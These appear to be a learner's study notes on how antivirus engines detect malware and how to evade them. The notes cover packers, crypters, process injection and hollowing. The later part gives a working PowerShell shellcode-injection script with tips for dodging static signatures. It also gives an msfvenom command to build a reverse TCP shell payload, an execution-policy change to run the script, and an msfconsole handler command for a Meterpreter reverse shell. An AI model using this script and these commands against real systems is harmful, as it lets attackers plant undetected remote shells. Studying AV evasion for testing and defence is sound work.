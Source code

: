 Known vs unknown threats

signature based detection: di malware
generic file hash to specific binary sequence

AV comprises different engines responsible for detecting running application in system

Signature language defined in AV, signature can represent different aspect of malware

Modern AV solutions are shipped with a ML engine and is ran whenever an unknown file is discovered on a system

ML engines can detect unknown threats, but they operate on the cloud and need an active network connection to internet which is not an option for some internal enterprise servers

many engines shouldn't borrow too many computing resources from the rest of the system limiting it's potency

Endpoint Detection and Response solutions have evoveld
SEIM event management


AV engine components

signature updates fetched fromthe vendor's signature db 

signature definitions are stored in the localAV database which feeds more specific engines

AV is designed around:
File Engine
Memory Engine
Network Engine
Disassembler
Emulator/Sandbox
Browser Plugin
Machine Learning Engine

they work simultaneously with signature db to rank events 

file engine: scheduled and real time scans
scheduled: parses the file system and sends metadata && data to signature engine
real-time scan: ID envents at the kernel level via mini-filter driver (operates at kernel and user land)

memory engine inspects each process memory space at runtime for well-known binary signatures or API calls

network engine inspects the traffic on LAN interface, firewall

malware employs encryption and decryption through custom routines to conceal -> AV counterattack by disassembling malware packers or ciphers and loading into sandbox

disassembler engine: translating machine code into assembly, reconstructing original program code section and id any encoding/decoding routine

browsers are protected by sandbox, modern AV often employ browser plugins to get better visibility and detect malicous content


Detection Methods

Signature based 

restricted list technology -> scan compare quarantine

can be hash or a set of multiple patterns like binary values

we can get the binary representation of a file via xxd with -b before file name

Heuristic based: rules and algorithms to determine if action is malicious

stepping though the instruction of binary file by attempting to disassemble the machine code and decompile & analyze the source code to map program, looking for patterns

Behaviour-Based dynamically analyze the behaviour of binary file, exe in sandbox

ML detect unknown threat, collection and analysis of additional metdata.

MS WD has 2 WL, client which is creating ML models and heuristics
cloud, which is capable od analyzing submitted samples aginst a metadata based model comprised of all submitted samples

if client can't determine, it will query cloud

many AV use a combination of these detection methods to achieve higher detection rates



ByPassing

On-Disk:

packers:
high cost of disk space and slow network speeds during early days of the internet

packers alone is no longer enough to evade AV

Obfuscators reorganize and mutate code to make it difficult to reverse engineer

replacing instructions with semantically equivalent ones, inserting irrelevant instructions or dead code

splitting or reordering functions and so on

Crypter software: cryptographically alters exe code,adding decryption stub that restores original code upon exe, decryption happens in memory, only encrypted code is on disk, foundational in modern malware, most effective technique

high effective av evation requires combination of all techniques in addition to advanced ones:
anti-reversing, antidebugging, virtual machine emulation detection ...
software protectors were designed for leditimate copy right purpose but can be used to bypass AV

The Enigma Protector can be used to successfully bypass antivirus products


In Memory Evasion

In memory injections, PE injection, by pass av products on windows, manipulation of volatile memory, doesn't write file to disk which is always patroiled

Remote Process Memory Injection: inject payload into another valid PE that is not malicious
Using windows API
OpenProcess function to obtain valid HANDLE to a target process we can access
Allocate memory in the context of process by calling Windows API such as VirtualAllocEx
Once memory has been allocated, we copy the malicious payload to newly allocated memory using WriteProcessMemory  -> exe in memory in seprarte thread using CreateRemoteThread API


Unlike regular DLL injection, loading a malicious DLL from disk using LoadLibrary API,

reflective DLL injection load DLL stored by attacker in process memory

LoadLibrary does not support loading DLL from memory, win os doesn't expose API that can handel this either we must write our own API that doesn't rely on disk based dll

Process Hollowing,launch non-malicious process in suspended state, image of the process is removec from memory and replaced with malicious executable image

Inline hooking, moding memory and introducing hook (instruction that redirects code exe) into function to point it to malicous code
(finding JMP ESP)


Testing for AV Evasion

SecOps collaboration between enterprise IT and SOC

Kleenscan.com alternative to VirusTotal last resort if AV is grey -> black

need to disable sample submssion so that we don't incur drawback as VirusTotal

always perfer custom code


Evading AV with Thread Injection

using remote process memory injection technique

below is well known version of memory injection powershell script

$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$var2 = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$var1 = <place your shellcode here>;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

payload generation:
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=4444 -f powershell -v sc

script starts by importing:
VirtualAlloc and CreateThread from kernel32.dll && memset from msvcrt.dll so we can allocate mem, exe threading && write to memory

script main logic:
allocating memory using VirtualAlloc, which takes payload in $sc array and writes it to new block using memset



scripts are just text files, harder to interprete compared to binary for AV

we can try to by pass detection of static strings by changing the variables to more generic names

saving the script as ps1 (powershell file) 

most win systems disables running script

Get-ExecutionPolicy - Scope CurrentUser
retrieve current exe policy

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
set exe policy so we can run script


Automating the Process

Shellter dynamic shellcode injection, free

analysis of the target PE file and the exe path, determin where it can inject without reelying on traditional injection techniques

using existing PE importing address table enties to locate functions that will be used for mem allocation

Shellter is designed tobe run on windows, need to use wine

auto mode

enable stealth mode if you want the applciation to return to normal function

msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

above command to interact with Meterpreter payload